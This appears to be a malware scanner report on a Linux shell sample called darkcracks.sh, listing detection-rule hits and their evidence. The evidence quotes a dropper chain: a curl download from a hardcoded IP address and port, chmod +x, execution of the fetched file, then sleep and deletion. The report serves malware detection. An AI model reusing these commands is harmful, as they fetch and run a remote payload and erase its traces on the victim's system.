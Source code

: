 ## linux/2024.Darkcracks/darkcracks.sh [🚨 CRITICAL]

|   RISK   |                                                                    KEY                                                                     |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                         EVIDENCE                                                                                                                                                                                                                                                                                                                                         |
|----------|--------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [combo/dropper/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/combo/dropper/shell.yara#curl_chmod_relative_run_tiny)  | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod](https://github.com/search?q=chmod&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/run_sleep_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/run_sleep_delete.yara#run_sleep_delete)    | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                     |
| CRITICAL | [net/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/fetch.yara#curl_download_ip)                                  | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| HIGH     | [process/chdir/unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir-unusual.yara#unusual_cd_val)            | changes to an unusual system directory                         | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                         |
| HIGH     | [ref/ip_port](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/ip_port.yara#hardcoded_ip_port)                             | hardcoded IP:port destination                                  | [179.191.68.85:82](https://github.com/search?q=179.191.68.85%3A82&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| HIGH     | [ref/site/http/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/site/http-ip.yara#http_hardcoded_ip)                   | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Ex](http://179.191.68.85:82/vendor/sebastian/diff/src/Ex)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file-make_executable.yara#chmod_executable_plus) | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission-modify.yara#chmod)                       | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/ip.yara#hardcoded_ip)                                            | hardcoded IP address                                           | [179.191.68.85](https://github.com/search?q=179.191.68.85&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/relative.yara#relative_path_val)                 | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/root.yara#root_path_val)                             | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/shell/exec.yara#calls_shell)                                     | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| LOW      | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell)                               | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                         |
| LOW      | [ref/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/var.yara#var_path)                                    | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| LOW      | [ref/site/url](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/site/url.yara#http_url)                                    | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |


